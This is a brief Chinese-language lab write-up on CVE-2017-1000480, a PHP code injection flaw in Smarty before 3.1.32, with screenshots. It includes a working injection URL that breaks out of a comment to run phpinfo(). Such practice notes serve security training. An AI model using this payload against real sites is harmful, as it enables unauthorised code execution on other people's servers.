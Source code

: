 ![image-20230712160025355](%E9%9D%B6%E5%9C%BA.assets/image-20230712160025355.png)



## CVE-2017-1000480 Smarty <= 3.1.32 PHP代码执行漏洞

*靶标介绍：*

3.1.32 之前的 Smarty 3 在未清理模板名称的自定义资源上调用 fetch() 或 display() 函数时容易受到 PHP 代码注入的影响。

```
/index.php?eval=*/phpinfo();/*
```

![image-20230712160304795](%E9%9D%B6%E5%9C%BA.assets/image-20230712160304795.png)
